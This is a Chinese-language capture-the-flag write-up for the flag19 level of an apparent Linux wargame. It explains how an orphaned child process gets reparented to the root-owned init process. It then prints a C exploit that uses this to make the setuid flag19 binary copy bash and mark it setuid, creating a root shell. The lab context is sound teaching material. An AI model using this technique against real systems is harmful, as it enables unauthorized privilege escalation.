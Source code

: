 该程序的逻辑是，判断父进程的uid是否为0（即root用户），如果是则可以执行shell程序。所以我们的目的就是在执行此程序的时候，让它的父进程的uid为0。

在常规下情况下执行程序，程序的父进程都是用户所登陆的shell，其父进程uid即为登录用户uid。我们显然不可能以root用户登录，要如何才能实现程序的父进程uid为0呢？

这就让我们想到了**孤儿进程**的处理机制：在Linux中，一个子进程的父进程如果在子进程结束之前便退出，那么该子进程就会被pid为1的进程接管，它的父进程会变更为1号进程。而1号进程的uid即为root。

编写程序：

``` c
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>

int main() {
	if (fork() == 0) {
		sleep(1);
		execl("/home/flag19/flag19", "sh", "-c", "cp /tmp/bash /home/flag19/; chmod +s /home/flag19/bash", (char*)0);
		err(1, "Unable to exec flag19");
	}
	return 0;
}
```

在上述程序中，直接创建子进程执行flag19程序，并设置好了要执行的命令，为了保险起见、让父进程先退出，先让子进程休眠1s；父进程就直接退出。

![Level19](level19_1.png)